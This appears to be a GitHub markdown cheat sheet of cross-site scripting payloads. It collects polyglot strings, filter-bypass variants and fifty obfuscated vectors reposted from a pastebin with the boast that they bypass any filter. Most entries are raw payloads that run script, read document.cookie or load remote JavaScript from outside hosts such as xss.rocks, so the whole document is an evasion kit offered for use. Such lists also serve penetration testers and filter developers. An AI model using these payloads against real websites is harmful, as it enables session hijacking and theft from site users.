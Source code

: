 # Rsnake polyglot XSS strings

~~~
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";
alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
~~~

~~~
'';!--"<XSS>=&{()}
~~~

~~~
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
~~~

~~~
'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)>
<script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script>
<script>alert(document.cookie)</script>">
<img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id)>'">
<img src="http://www.shellypalmer.com/wp-content/images/2015/07/hacked-compressor.jpg">
~~~

More at https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet

# Basic XSS strings

~~~
“><script >alert(document.cookie)</script>
~~~

Bypass filter when it strips &lt;script> tags:

~~~
%253cscript%253ealert(document.cookie)%253c/script%253e
~~~

~~~
“><s”%2b”cript>alert(document.cookie)</script>
~~~

~~~
“><ScRiPt>alert(document.cookie)</script>
~~~

~~~
“><<script>alert(document.cookie);//<</script>
~~~

~~~
foo%00<script>alert(document.cookie)</script>
~~~

~~~
<scr<script>ipt>alert(document.cookie)</scr</script>ipt>
~~~

~~~
%22/%3E%3CBODY%20onload=’document.write(%22%3Cs%22%2b%22cript%20src=http://my.box.com/xss.js%3E%3C/script%3E%22)’%3E
~~~

When inside &lt;script> tags:

~~~
‘; alert(document.cookie); var foo=’
~~~

~~~
foo\’; alert(document.cookie);//’;
~~~

~~~
</script><script >alert(document.cookie)</script>
~~~

Other XSS that don’t require &lt;script>:

~~~
<img src=asdf onerror=alert(document.cookie)>
~~~

~~~
<BODY ONLOAD=alert(’XSS’)>
~~~

# By @soaj1664ashar dumped from http://pastebin.com/mQDbu7Sm on 2016-04-21

50 awesome XSS vectors that I have tweeted (@soaj1664ashar) over time. Enjoy! Now you can bypass any filter with the help of these full baked vectors :-)

~~~
<a href="javascript&colon;\u0061&#x6C;&#101%72t&lpar;1&rpar;"><button>
~~~

~~~
<div onmouseover='alert&lpar;1&rpar;'>DIV</div>
~~~

~~~
<iframe style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)">
~~~

~~~
<a href="jAvAsCrIpT&colon;alert&lpar;1&rpar;">X</a>
~~~

~~~
<embed src="http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf"> ​
~~~

~~~
<object data="http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf">​
~~~

~~~
<var onmouseover="prompt(1)">On Mouse Over</var>​
~~~

~~~
<a href=javascript&colon;alert&lpar;document&period;cookie&rpar;>Click Here</a>
~~~

~~~
<img src="/" =_=" title="onerror='prompt(1)'">
~~~

~~~
<%<!--'%><script>alert(1);</script -->
~~~

~~~
<script src="data:text/javascript,alert(1)"></script>
~~~

~~~
<iframe/src \/\/onload = prompt(1)
~~~

~~~
<iframe/onreadystatechange=alert(1)
~~~

~~~
<svg/onload=alert(1)
~~~

~~~
<input value=<><iframe/src=javascript:confirm(1)
~~~

~~~
<input type="text" value=``<div/onmouseover='alert(1)'>X</div>
~~~

~~~
http://www.<script>alert(1)</script .com
~~~

~~~
<iframe src=j&NewLine;&Tab;a&NewLine;&Tab;&Tab;v&NewLine;&Tab;&Tab;&Tab;a&NewLine;&Tab;&Tab;&Tab;&Tab;s&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;c&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;i&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;p&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&colon;a&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;l&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;e&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;%28&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;1&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;%29></iframe>​
~~~

~~~
<svg><script ?>alert(1)
~~~

~~~
<iframe src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;%28&Tab;1&Tab;%29></iframe>
~~~

~~~
<img src=`xx:xx`onerror=alert(1)>
~~~

~~~
<object type="text/x-scriptlet" data="http://jsfiddle.net/XLE63/ "></object>
~~~

~~~
<meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/>​
~~~

~~~
<math><a xlink:href="//jsfiddle.net/t846h/">click
~~~

~~~
<embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always>​
~~~

~~~
<svg contentScriptType=text/vbs><script>MsgBox+1
~~~

~~~
<a href="data:text/html;base64_,<svg/onload=\u0061&#x6C;&#101%72t(1)>">X</a
~~~

~~~
<iframe/onreadystatechange=\u0061\u006C\u0065\u0072\u0074('\u0061') worksinIE>
~~~

~~~
<script>~'\u0061' ; \u0074\u0068\u0072\u006F\u0077 ~ \u0074\u0068\u0069\u0073. \u0061\u006C\u0065\u0072\u0074(~'\u0061')</script U+
~~~

~~~
<script/src="data&colon;text%2Fj\u0061v\u0061script,\u0061lert('\u0061')"></script a=\u0061 & /=%2F
~~~

~~~
<script/src=data&colon;text/j\u0061v\u0061&#115&#99&#114&#105&#112&#116,\u0061%6C%65%72%74(/XSS/)></script​​​​​​​​​​​​
~~~

~~~
<object data=javascript&colon;\u0061&#x6C;&#101%72t(1)>
~~~

~~~
<script>+-+-1-+-+alert(1)</script>
~~~

~~~
<body/onload=&lt;!--&gt;&#10alert(1)>
~~~

~~~
<script itworksinallbrowsers>/*<script* */alert(1)</script ​
~~~

~~~
<img src ?itworksonchrome?\/onerror = alert(1)​​​
~~~

~~~
<svg><script>//&NewLine;confirm(1);</script </svg>
~~~

~~~
<svg><script onlypossibleinopera:-)> alert(1)
~~~

~~~
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script&#x3A;&#97lert(1)>ClickMe
~~~

~~~
<script x> alert(1) </script 1=2
~~~

~~~
<div/onmouseover='alert(1)'> style="x:">
~~~

~~~
 <--`<img/src=` onerror=alert(1)> --!>
~~~

~~~
<script/src=&#100&#97&#116&#97:text/&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x000070&#x074,&#x0061;&#x06c;&#x0065;&#x00000072;&#x00074;(1)></script>​
~~~

~~~
<div style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)" onclick="alert(1)">x</button>​
~~~

~~~
"><img src=x onerror=window.open('https://www.google.com/');>
~~~

~~~
<form><button formaction=javascript&colon;alert(1)>CLICKME
~~~

~~~
<math><a xlink:href="//jsfiddle.net/t846h/">click
~~~

~~~
<object data=data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+></object>​
~~~

~~~
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
~~~

~~~
<a href="data:text/html;blabla,&#60&#115&#99&#114&#105&#112&#116&#32&#115&#114&#99&#61&#34&#104&#116&#116&#112&#58&#47&#47&#115&#116&#101&#114&#110&#101&#102&#97&#109&#105&#108&#121&#46&#110&#101&#116&#47&#102&#111&#111&#46&#106&#115&#34&#62&#60&#47&#115&#99&#114&#105&#112&#116&#62&#8203">Click Me</a>​
~~~
